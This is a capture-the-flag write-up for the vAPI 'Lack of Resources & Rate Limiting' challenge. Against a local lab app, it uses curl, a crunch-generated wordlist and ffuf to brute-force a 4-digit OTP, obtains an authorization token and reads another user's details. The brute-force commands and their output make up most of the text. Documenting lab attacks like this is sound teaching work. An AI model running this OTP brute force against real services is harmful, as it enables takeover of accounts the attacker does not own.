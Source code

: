 # Lack of Resources & Rate Limiting
> We believe OTPs are a great way of authenticating users and secure too if implemented correctly!

# Tools Used:
```
curl 8.8.0 (x86_64-pc-linux-gnu)
crunch version 3.6
ffuf 2.1.0-dev
cat (GNU coreutils) 9.4
```

# Mobile Login
## POST /vapi/api4/login

As the Postman Collection provided gave an example mobile number as "8000000535", we will be using that.
```json
...
						"body": {
							"mode": "raw",
							"raw": "{\r\n    \"mobileno\":\"8000000535\"\r\n}"
						},
...
```

Attempt to login using the mobile number used as an example in the Postman Collection provided.
```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' \
    --data-binary $'{\x0d\x0a    \"mobileno\":\"8000000535\"\x0d\x0a}' \
    $'http://localhost/vapi/api4/login'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Wed, 26 Jun 2024 16:45:13 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Wed, 26 Jun 2024 16:45:13 GMT
Content-Type: application/json

{"success":"true","msg":"4 Digit OTP sent on mobile no."}
```

# Verify OTP
## POST /vapi/api4/otp/verify

Since we do not have the mobile number used, we will not be receiving the OTP. 
However, we still want to log in.

An example of a 403 response for providing the wrong OTP:
```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' \
    --data-binary $'{\x0d\x0a    \"otp\":\"9999\"\x0d\x0a}' \
    $'http://localhost/vapi/api4/otp/verify'
```
```http
HTTP/1.1 403 Forbidden
Date: Wed, 26 Jun 2024 16:50:18 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Wed, 26 Jun 2024 16:50:18 GMT
Content-Type: application/json

{"success":"false","cause":"Invalid OTP"}
```

Lets brute force the OTP.

Create an OTP wordlist using crunch.
```bash
crunch 4 4 1234567890 -o /home/kali/Desktop/OTP.txt
```
```
Crunch will now generate the following amount of data: 50000 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 10000 

crunch: 100% completed generating output
```

Brute force the OTP and save any matched HTTP response(s).
```bash
ffuf -w /home/kali/Desktop/OTP.txt -X POST -H "Content-Type: application/json" -d '{"otp": "§§"}' -u http://localhost/vapi/api4/otp/verify -fc 403 -mode sniper -od /home/kali/Desktop/ffuf_responses -v
```
```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://localhost/vapi/api4/otp/verify
 :: Wordlist         : FUZZ: /home/kali/Desktop/OTP.txt
 :: Header           : Content-Type: application/json
 :: Data             : {"otp": "§§"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

[Status: 200, Size: 59, Words: 1, Lines: 1, Duration: 1791ms]
| URL | http://localhost/vapi/api4/otp/verify
| RES | 4e4e97da021366b653a445d25f762f0d
    * FUZZ: 1872

:: Progress: [10000/10000] :: Job [1/1] :: 22 req/sec :: Duration: [0:07:21] :: Errors: 0 ::
```
- Observe that there is no limit on how often we are able to call the API within a defined timeframe.
- Observe the OTP was found to be 1872 and the response is saved to "4e4e97da021366b653a445d25f762f0d".

View the matched fuff response file:
```bash
cat /home/kali/Desktop/ffuf_responses/4e4e97da021366b653a445d25f762f0d
```
```http
POST /vapi/api4/otp/verify HTTP/1.1
Host: localhost
User-Agent: Fuzz Faster U Fool v2.1.0-dev
Content-Length: 15
Content-Type: application/json
Accept-Encoding: gzip

{"otp": "1872"}
---- ↑ Request ---- Response ↓ ----

HTTP/1.1 200 OK
Connection: close
Cache-Control: no-cache, private
Content-Type: application/json
Date: Wed, 26 Jun 2024 17:30:21 GMT
Date: Wed, 26 Jun 2024 17:30:21 GMT
Host: localhost
X-Powered-By: PHP/7.4.33

{"success":"true","key":"FZvjaFlMgUfnpFJDhKx-92xeXx_sCr7Y"}
```
- Observe the request succeeded and the key is given in the response.

As specified in the Postman Collection, the test script to be executed for the API4 Verify OTP endpoint is used to derive the key (Authorization-Token) by parsing the JSON, selecting the value of "key" key and updates it in the Postman Environment as api4_key.
```js
var jsonData = JSON.parse(responseBody);
var api4_key = jsonData.key;
console.log("API 4 Key : "+api4_key);
postman.setEnvironmentVariable("api4_key",api4_key);
```

Manually derive the key from the 200 response.
```
FZvjaFlMgUfnpFJDhKx-92xeXx_sCr7Y
```
- We will need the Authorization Token for the "Get Details" endpoint

# Get Details
## GET /vapi/api4/user

Get details using the key we found.
```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Authorization-Token: FZvjaFlMgUfnpFJDhKx-92xeXx_sCr7Y' -H $'Content-Type: application/json' -H $'Host: localhost' \
    $'http://localhost/vapi/api4/user'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Wed, 26 Jun 2024 17:45:59 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Wed, 26 Jun 2024 17:45:59 GMT
Content-Type: application/json

[{"id":1,"firstname":"john","lastname":"flag{api4_ce696239323ea5b2d015}"}]
```
- Observe we have acquired the details by brute forcing the OTP and getting the Authorization-Token using a mobile number that we do not own.

API4 Flag
```
flag{api4_ce696239323ea5b2d015}
```

References:
https://owasp.org/API-Security/editions/2019/en/0xa4-lack-of-resources-and-rate-limiting/
https://owasp.org/API-Security/editions/2023/en/0xa4-unrestricted-resource-consumption/

